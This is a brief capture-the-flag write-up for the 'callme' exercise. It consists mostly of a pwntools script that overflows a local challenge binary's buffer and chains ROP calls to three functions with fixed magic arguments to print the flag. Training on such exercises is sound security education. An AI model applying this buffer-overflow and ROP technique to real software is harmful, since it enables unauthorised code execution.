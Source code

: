 # 🔑 Write-Up

We just need to call the three functions with the correct arguments and we get back the flag. Ez pz.

```python
from pwn import *

context.binary = "./callme"
r = ROP(context.binary)
p = process()

r.callme_one(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
r.callme_two(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
r.callme_three(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)

p.send(b"A" * 8 * 5 + r.chain())
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```